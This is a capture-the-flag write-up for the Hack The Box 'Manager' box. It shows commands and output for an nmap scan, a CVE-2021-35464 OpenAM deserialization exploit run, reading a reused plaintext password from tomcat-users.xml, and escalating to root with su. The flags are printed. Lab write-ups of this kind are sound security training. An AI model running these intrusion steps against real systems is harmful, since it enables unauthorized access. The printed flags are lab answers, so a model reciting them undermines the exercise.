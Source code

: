 # Manager


By doing a quick scan we can notice an Apache Tomcat on port 8080.
```
# nmap -sCV -p- 10.129.172.131
Nmap scan report for 10.129.172.131
[...]
Host is up (0.19s latency).                                                                                                                                              
8080/tcp  open     http        Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

![Openam login portal](img/openam_portal.png "Openam login portal")

This version of OpenAM is vulnerable to a deserialization attack.
The exploit can be found [here](https://www.exploit-db.com/exploits/50131).

```
$ python3 CVE-2021-35464.py -c whoami
[?] Please enter the URL [http://192.168.0.100:7080/openam] : http://manager.htb:8080/openam/
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "whoami" now:

tomcat
```
By running this exploit can we establish a revshell to grab the user flag:

![Getting a reverse shell](img/revshell.png "Getting a reverse shell")

```
tomcat@manager:~$ cat /opt/tomcat/user.txt
cat /opt/tomcat/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

When digging into Tomcat configuration we noticed a password in the tomcat-users.xml file.
```
tomcat@manager:~/conf$ cat /opt/tomcat/conf/tomcat-users.xml
[...]
 <role rolename="admin-gui"/>
  <user username="admin" password="BXJ^JA3y4!nE8x9q" roles="admin-gui"/>
```

This password is actually the root password. We can complete the boxe by running su and grab the root flag.
```
tomcat@manager:~/conf$ su
Password: BXJ^JA3y4!nE8x9q
root@manager:/opt/tomcat/conf# id
uid=0(root) gid=0(root) groups=0(root)
root@manager:/opt/tomcat/conf# cat /root/root.txt
cat /root/root.txt
HTB{p455w0rd_r3us3_c4n_l34d_t0_syst3m_4bus3}
```